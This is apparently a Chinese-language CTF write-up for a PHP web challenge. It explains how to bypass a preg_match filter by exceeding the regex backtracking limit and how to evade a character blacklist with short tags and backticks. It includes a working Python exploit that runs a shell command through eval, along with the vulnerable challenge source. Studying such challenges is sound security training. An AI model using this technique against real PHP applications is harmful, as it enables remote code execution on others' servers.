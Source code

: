tags:: Regex

- # 思路
	- 使用[[CTFWEB/PHP/正则匹配回溯次数绕过]]绕过preg_match限制，并绕过`checkdata`函数的检查
- # 绕过preg_match
	- 因为字符`'`可以匹配`.*`，但是无法匹配后面的子匹配，我们只要在payload中加入大量`'`即可绕过
- # 绕过check_data
	- check_data禁止了包括括号在内的大量字符，我们可以使用短标签加上反引号执行任意Linux Shell命令
- # exp
	- ```python
	  payload = json.dumps({
	      "cmd": "?><?=`nl /f*`?><?#" + "'" * 1010000,
	  })
	  
	  r = requests.post(url, data = {
	      "letter": payload
	  })
	  
	  print(r.text)
	  ```
- # 题目源码
	- ```php
	   <?php
	  include "check.php";
	  if (isset($_REQUEST['letter'])){
	      echo "entering...\n";
	      $txw4ever = $_REQUEST['letter'];
	      if (preg_match('/^.*([\w]|\^|\*|\(|\~|\`|\?|\/| |\||\&|!|\<|\>|\{|\x09|\x0a|\[).*$/m',$txw4ever)){
	          die("再加把油喔");
	      }
	      else{
	          $command = json_decode($txw4ever,true)['cmd'];
	          checkdata($command);
	          @eval($command);
	      }
	  }
	  else{
	      echo "out.";
	      highlight_file(__FILE__);
	  }
	  ?>
	  
	  ```
